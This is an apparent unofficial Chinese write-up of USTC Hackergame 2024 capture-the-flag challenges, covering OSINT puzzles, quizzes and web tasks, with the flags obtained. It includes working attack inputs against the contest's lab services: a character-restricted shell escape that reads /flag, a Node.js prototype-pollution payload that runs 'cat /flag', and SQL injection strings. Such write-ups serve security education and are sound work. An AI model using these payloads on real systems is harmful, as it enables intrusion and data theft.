









# 中国科学技术大学第十一届信息安全大赛非官方题解暨吐槽（Ishisashi 篇）
## \[web\] 签到
直接传入 `pass=true` 即可。


```
flag{W31COMe-tO-hAcKErG4mE-4ND-eNjoY-hAckinG-zoz4}
```

### Omake
我应该是第 24 个成功签到的。


大抵有不少[主题曲](https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E7%AD%BE%E5%88%B0/files/Hackergame.mp3)（？）中毒患者罢？


## \[web\] 喜欢做签到的 CTFer 你们好呀
找到中国科学技术大学 NEBULA 战队的[招新主页](https://www.nebuu.la/)，然后可以直接看 [JS](https://www.nebuu.la/_next/static/chunks/pages/index-5c589ff418560b46.js)。

两个 Flag 都是用 Base64 藏起来的，直接解就行。

也可以在网页上实操，但不能复制所以不太方便。



### \[Flag 1\] Checkin Again
```
FLAG=flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}
```

### \[Flag 2\] Checkin Again & Again
```
flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}
```

## \[general\] 猫咪问答（Hackergame 十周年纪念版）
> 1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？**（30 分）**

找到 LUG @ USTC 介绍 Hackergame 的[网页](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)，点进[「第二届安全竞赛（存档）」](https://lug.ustc.edu.cn/wiki/sec/contest.html)：
```
10 月 17 日 周六晚上 19:30 3A204 网络攻防技巧讲座 10 月 18 日 周日上午 10:00 初赛 在线开展 10 月 24 日 周六凌晨 00:00 初赛结束 后续开展复赛
```
```
3A204
```

> 2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？**（30 分）**

2019、2020、2021、2022、2023 各有 28、31、31、33、29 道题，因此是 2019。

[中国科学技术大学第六届信息安全大赛圆满结束](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)
```
经统计，在本次比赛中，总共有 2682 人注册，1904 人至少完成了一题。比赛期间所有人合计提交了 17098 次 flag，其中约 57.44% 为正确的提交。
```
```
2682
```

> 3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？**（20 分）**

查看 Hackergame 2018 的[花絮](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)。
```
“程序员的自我修养”已经成为了图书馆本月热搜词的第一名
```
```
程序员的自我修养
```

> 4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？**（10 分）**

翻阅[论文](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)：
```
All 20 clients are configured as MUAs for all 16 providers via IMAP, resulting in 336 combinations (including 16 web interfaces of target providers).
```
```
336
```

> 5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？**（5 分）**

紧跟时事（

Code is cheap（略）

[MAINTAINERS: Remove some entries due to various compliance requirements.](https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2)
```
6e90b6
```

> 6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？**（5 分）**

……我还真把[模型](https://www.modelscope.cn/models/LLM-Research/Meta-Llama-3-70B)下了下来跑了一下，硬碟和网路的开销实在太大了。那我也只好放云上了，本机干这个不太行。
```Python
from transformers import AutoTokenizer
tokenizer = AutoTokenizer.from_pretrained('Meta-Llama-3-70B')
with open('index.html', 'r', encoding = 'UTF-8') as file:
    print(len(tokenizer.tokenize(file.read())))
```
```
1833
```

### Omake：实况截图

```
本次测验总得分为 100。
🎉🎉🎉flag{4_9oØd_©A7_is_7he_CAt_whO_CaN_Pas5_The_QuIz}🎉🎉🎉
🎉🎉🎉flag{7EN_ye4r$_Of_hαckeRgΛmE_ØMEdEtou_w1Th_Nek0_QUIZ}🎉🎉🎉
```
这 Flag 不是纯 ASCII 让我挺意外。

## \[general\] 打不开的盒
直接用 Blender 打开一顿乱切就行了。


```
flag{Dr4W_Us!nG_fR3E_C4D!!w0W}
```
本来想用 SOLIDWORKS，但导入 STL 出来的东西好像没法编辑？

## \[general\] 每日论文太多了！
搜寻「flag」可以定位到 PDF 第 6 页（即全刊第 508 页）的左上角，把「Semantic Space」下的白框挪走即能看到 Flag。


```
flag{h4PpY_hAck1ng_3veRyd4y}
```

## \[web\] 比大小王
依旧是写油猴脚本，但把原函数也替换了。
```JavaScript
// ==UserScript==
// @name         比大小王
// @namespace    https://github.com/mrhso
// @version      0.1919810
// @description  想和 CT 进行一个大小的比
// @author       Ishisashi
// @match        http://202.38.93.141:12122/*
// @grant        none
// ==/UserScript==

(function() {
    'use strict';

    let observer = new MutationObserver(() => {
        if (state.value1 < state.value2) {
            chooseAnswer('<');
        } else if (state.value1 > state.value2) {
            chooseAnswer('>');
        };
    });

    observer.observe(document.getElementById('answer').parentNode, { attributes: true, childList: true, subtree: true });

    const oldUpdateTimer = updateTimer;
    updateTimer = () => {
        if (state.value1 < state.value2) {
            chooseAnswer('<');
        } else if (state.value1 > state.value2) {
            chooseAnswer('>');
        };
        oldUpdateTimer();
    };

    chooseAnswer = (choice) => {
        if (!state.allowInput) {
            return;
        };
        state.inputs.push(choice);
        let correct;
        if (state.value1 < state.value2 && choice === '<' || state.value1 > state.value2 && choice === '>') {
            correct = true;
            state.score1++;
            document.getElementById('answer').style.backgroundColor = '#5e5';
        } else {
            correct = false;
            document.getElementById('answer').style.backgroundColor = '#e55';
        };
        document.getElementById('answer').textContent = choice;
        document.getElementById('score1').textContent = state.score1;
        document.getElementById('progress1').style.width = `${state.score1}%`;
        state.allowInput = false;
        (() => {
            if (state.score1 === 100) {
                submit(state.inputs);
            } else if (correct) {
                state.value1 = state.values[state.score1][0];
                state.value2 = state.values[state.score1][1];
                state.allowInput = true;
                document.getElementById('value1').textContent = state.value1;
                document.getElementById('value2').textContent = state.value2;
                document.getElementById('answer').textContent = '?';
                document.getElementById('answer').style.backgroundColor = '#fff';
            } else {
                state.allowInput = false;
                state.stopUpdate = true;
                document.getElementById('dialog').textContent = '你选错了，挑战失败！';
                document.getElementById('dialog').style.display = 'flex';
            };
        })();
    };
})();
```
```
挑战成功！flag{i-aM-tHE-h4cK3R-kinG-0f-COMParING-NUMBErs-zOZ4}
```

## \[general\] 旅行照片 4.0
### \[Flag 1\] LEO_CHAN?
> 你们的生活到底真的假的呀？每天要么就是看漫展看偶像看 live 喝酒吃烧烤，要么就是这里那里旅游。阵容一宣，说冲就冲，群一拉，机票一买，钱就像大风刮来的，时间好像一直有。c\*\*4 你们也去，mu\*\*ca 你们也去，m\*\*o 你们也去，to\*ea\*i 你们也去。我怎么一天到晚都在上班啊，你们那到底是怎么弄的呀？教教我行不行

……mu\*\*ca 是 Ave Mujica，m\*\*o 是 MyGO!!!!!，to\*ea\*i 是トゲナシトゲアリ——那 c\*\*4 是甚么？

> **问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：`X校区Y门`，均为一个汉字）**

直接在地图上找。


```
东校区西门
```

> **问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：`YYYYMMDD`）**

[【中国科大2024ACG音乐会单品】君の知らない物語](https://www.bilibili.com/video/av1405215501/)
```
2024年5月19日 中国科大 第三届 ACG音乐会
```
```
20240519
```

```
FLAG 为 flag{5UB5CR1B3_T0_L30_CH4N_0N_B1L1B1L1_PLZ_c7a1e2d0d2}。
```

### \[Flag 2\] FULL_RECALL
> **问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）**

垃圾桶有「六安」字样。搜寻「六安彩虹路公园」：


```
中央公园
```

> **问题 4: 这个景观所在的景点的名字是？（三个汉字）**

识图知该石为三峡大坝截流石，位于坛子岭。


```
坛子岭
```

```
FLAG 为 flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_b425255fce}。
```

### \[Flag 3\] OMINOUS_BELL
> 不过，这个照片确实有趣，似乎有辆很标志性的……四编组动车？

搜寻「粉红色 四编组动车」就能找到怀密线的[相关报道](https://mp.weixin.qq.com/s?__biz=MjM5NTc3MTgwMA%3D%3D&mid=2651345494&idx=1&sn=2fce3bb1ee027d0fecff60e4aa3e2a16)。

> **问题 6: 左下角的动车组型号是？**
```
穿梭在北京怀柔与密云之间的“怀密号”
使用的是CRH6F-A型电力动车组
```
```
CRH6F-A
```

> **问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）**

因为有着这样的建筑所以应该离市区不远。那就从北京北站出发，顺着路线找。GeekGame 2024 介绍的[网站](http://cnrail.geogv.org/zhcn/about)就派上了用场。
```
北京北→清华园→清河→沙河→昌平→昌平北→官高→兴寿→平义分→北宅→雁栖湖→怀柔北→小水峪→黑山寺→石塘路→燕落→兵马营→下河→古北口
```
找的时候注意周边建筑物的形状。最后在清河站与沙河站之间找到了地点。



其实这个建筑物正属于北京积水潭医院新龙泽院区，所以医院的答案就出来了。
```
积水潭医院
```
笑点解析：触摸板过于灵敏，导致缩放时常常不慎跟丢，卡了很久。后面学乖了，先在地图画上轨迹再说。


```
FLAG 为 flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_82e51e360d}。
```

## \[general\] 不宽的宽字符
……？这题我莫名其妙过的，而且过了之后更不理解了。

大致思路是强制转换出来的数据其实还是 UTF-16LE，所以只要喂 UTF-16LE 的 0x5A3A5C746865666C616700 就行了。末尾还缺一块，条件反射地补个 0x4E——毕竟众所周知「一丁丂七」。
```
Enter filename. I'll append 'you_cant_get_the_flag' to it:
㩚瑜敨汦条一
The flag is: flag{wider_char_isnt_so_great_3eb877d349}. Congratulations!
```
但就是这一点让我非常不理解——哪怕不加 `you_cant_get_the_flag` 不也是甚么都打不开吗？还是说档案名就都只一个字母？

## \[general\] PowerfulShell
……这 FORBIDDEN_CHARS 是不是把 `%` 和 `^` 写了两次？

还有 23 个能用的 ASCII 可见字符：
```
 $+-123456789:=[]_`{|}~
```
`~` 会输出 `/players`，但是没法用 `${:}` 提取。这是我的第一个卡点。
```
PowerfulShell@hackergame> ~
/players/PowerfulShell.sh: line 16: /players: Is a directory
PowerfulShell@hackergame> ${~:1:1}
/players/PowerfulShell.sh: line 16: ${~:1:1}: bad substitution
```
其实变量名的开头可以是 `_`，所以可以先把 `~` 赋值给 `_1`。
```
PowerfulShell@hackergame> _1=~
PowerfulShell@hackergame> ${_1:2:1}
/players/PowerfulShell.sh: line 16: l: command not found
PowerfulShell@hackergame> ${_1:7:1}
/players/PowerfulShell.sh: line 16: s: command not found
PowerfulShell@hackergame> ${_1:2:1}${_1:7:1} ${_1:$[1-1]:1}
PowerfulShell.sh
```
这样就实现了 ls 操作。如果想看根目录的话，就把 `/` 也提取出来，但是这在 0 位——不能用 0，怎么办呢？

可以用 `$[]` 实现计算。
```
PowerfulShell@hackergame> $[1-1]
/players/PowerfulShell.sh: line 16: 0: command not found
PowerfulShell@hackergame> ${_1:2:1}${_1:7:1} ${_1:$[1-1]:1}
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
players
proc
root
run
sbin
srv
sys
tmp
usr
var
```
确实能看到有 /flag 呢。但要怎么读呢？注意到这里出现了好多好多的字母，所以可以把执行的结果赋值给新的变量。
```
PowerfulShell@hackergame> _2=`${_1:2:1}${_1:7:1} ${_1:$[1-1]:1}`
PowerfulShell@hackergame> $_2
/players/PowerfulShell.sh: line 16: bin: command not found
```
看，`_2` 已经完全变成那个输出的形状了。不过我一开始误以为提取运算结果用 `{}`，这是我的第二个卡点。
```
PowerfulShell@hackergame> ${_2:15:1}${_1:3:1}${_2:7:1} ${_1:$[1-1]:1}${_2:17:4}
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_5af82d4da8}
```

## \[web\] Node.js is Web Scale
喜欢我 `__proto__` 吗（

但我一开始并没有细看源代码，也就不知道可以设置键中键，所以放弃了这题。后来看着玩的时候突然发现：
```JavaScript
const keys = key.split(".");
```
那就简单了。
```
Set Key-Value Pair
Key:
__proto__.constructor
Value:
cat /flag
Set
OK
```
```
https://chal03-hnnbnd73.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=constructor
flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_7727da87e9}
```

## \[web\] PaoluGPT
### \[Flag 2\] 窥视未知
注意看源代码：
```Python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)

@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```
其中模板字符串很容易注入。利用 SQL 的注释符号 `-- `可以构造出字符串 `' union select title, contents from messages where shown = false --`；前加单引号是为了和已有的前单引号配对，而后单引号已经被注释掉了。

这个时候查询到的就是不可见的聊天记录，末尾便是 Flag。
```
flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_c4ce2f036d}
```

### \[Flag 1\] 千里挑一
我一开始用 Node.js 把 999 条都爬了下来匹配 `flag` 字样，但不知为何没找到。

沿用第二问的思路，可以构造`' union select title, contents from messages where shown = true and contents like '%flag%`，这样就直接搜到了。
```
flag{zU1_xiA0_de_11m_Pa0lule!!!_fa4c8317a4}
```

## \[math\] 强大的正则表达式
### \[Flag 1\] Easy
因为 $16\times625=10^4$，所以只要判断末四位就够。
```
Enter difficulty level (1~3): 1
Enter your regex: 0|16|32|48|64|80|96|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992|(0|1|2|3|4|5|6|7|8|9)*(0000|0016|0032|0048|0064|0080|0096|0112|0128|0144|0160|0176|0192|0208|0224|0240|0256|0272|0288|0304|0320|0336|0352|0368|0384|0400|0416|0432|0448|0464|0480|0496|0512|0528|0544|0560|0576|0592|0608|0624|0640|0656|0672|0688|0704|0720|0736|0752|0768|0784|0800|0816|0832|0848|0864|0880|0896|0912|0928|0944|0960|0976|0992|1008|1024|1040|1056|1072|1088|1104|1120|1136|1152|1168|1184|1200|1216|1232|1248|1264|1280|1296|1312|1328|1344|1360|1376|1392|1408|1424|1440|1456|1472|1488|1504|1520|1536|1552|1568|1584|1600|1616|1632|1648|1664|1680|1696|1712|1728|1744|1760|1776|1792|1808|1824|1840|1856|1872|1888|1904|1920|1936|1952|1968|1984|2000|2016|2032|2048|2064|2080|2096|2112|2128|2144|2160|2176|2192|2208|2224|2240|2256|2272|2288|2304|2320|2336|2352|2368|2384|2400|2416|2432|2448|2464|2480|2496|2512|2528|2544|2560|2576|2592|2608|2624|2640|2656|2672|2688|2704|2720|2736|2752|2768|2784|2800|2816|2832|2848|2864|2880|2896|2912|2928|2944|2960|2976|2992|3008|3024|3040|3056|3072|3088|3104|3120|3136|3152|3168|3184|3200|3216|3232|3248|3264|3280|3296|3312|3328|3344|3360|3376|3392|3408|3424|3440|3456|3472|3488|3504|3520|3536|3552|3568|3584|3600|3616|3632|3648|3664|3680|3696|3712|3728|3744|3760|3776|3792|3808|3824|3840|3856|3872|3888|3904|3920|3936|3952|3968|3984|4000|4016|4032|4048|4064|4080|4096|4112|4128|4144|4160|4176|4192|4208|4224|4240|4256|4272|4288|4304|4320|4336|4352|4368|4384|4400|4416|4432|4448|4464|4480|4496|4512|4528|4544|4560|4576|4592|4608|4624|4640|4656|4672|4688|4704|4720|4736|4752|4768|4784|4800|4816|4832|4848|4864|4880|4896|4912|4928|4944|4960|4976|4992|5008|5024|5040|5056|5072|5088|5104|5120|5136|5152|5168|5184|5200|5216|5232|5248|5264|5280|5296|5312|5328|5344|5360|5376|5392|5408|5424|5440|5456|5472|5488|5504|5520|5536|5552|5568|5584|5600|5616|5632|5648|5664|5680|5696|5712|5728|5744|5760|5776|5792|5808|5824|5840|5856|5872|5888|5904|5920|5936|5952|5968|5984|6000|6016|6032|6048|6064|6080|6096|6112|6128|6144|6160|6176|6192|6208|6224|6240|6256|6272|6288|6304|6320|6336|6352|6368|6384|6400|6416|6432|6448|6464|6480|6496|6512|6528|6544|6560|6576|6592|6608|6624|6640|6656|6672|6688|6704|6720|6736|6752|6768|6784|6800|6816|6832|6848|6864|6880|6896|6912|6928|6944|6960|6976|6992|7008|7024|7040|7056|7072|7088|7104|7120|7136|7152|7168|7184|7200|7216|7232|7248|7264|7280|7296|7312|7328|7344|7360|7376|7392|7408|7424|7440|7456|7472|7488|7504|7520|7536|7552|7568|7584|7600|7616|7632|7648|7664|7680|7696|7712|7728|7744|7760|7776|7792|7808|7824|7840|7856|7872|7888|7904|7920|7936|7952|7968|7984|8000|8016|8032|8048|8064|8080|8096|8112|8128|8144|8160|8176|8192|8208|8224|8240|8256|8272|8288|8304|8320|8336|8352|8368|8384|8400|8416|8432|8448|8464|8480|8496|8512|8528|8544|8560|8576|8592|8608|8624|8640|8656|8672|8688|8704|8720|8736|8752|8768|8784|8800|8816|8832|8848|8864|8880|8896|8912|8928|8944|8960|8976|8992|9008|9024|9040|9056|9072|9088|9104|9120|9136|9152|9168|9184|9200|9216|9232|9248|9264|9280|9296|9312|9328|9344|9360|9376|9392|9408|9424|9440|9456|9472|9488|9504|9520|9536|9552|9568|9584|9600|9616|9632|9648|9664|9680|9696|9712|9728|9744|9760|9776|9792|9808|9824|9840|9856|9872|9888|9904|9920|9936|9952|9968|9984)
Pass 4108731565259954272 True True
Pass 15111738775008193142 False False
Pass 758694139574440848 True True
Pass 18191497746811228229 False False
Pass 6831279842134243424 True True
Pass 4500089517621587144 False False
Pass 167774040685082064 True True
Pass 4493427880998049753 False False
Pass 15352966629937084128 True True
Pass 6646620925069978632 False False
Pass 3457959546205395616 True True
Pass 3104692688179116511 False False
Pass 16436419887160639776 True True
Pass 2944235928181537617 False False
Pass 7204320425077031280 True True
Pass 13794190136260696277 False False
Pass 2660162255009654656 True True
Pass 10054226843024325721 False False
Pass 7057757214963786272 True True
Pass 6086414402266113075 False False
Pass 451658054901544464 True True
Pass 18112043996275410370 False False
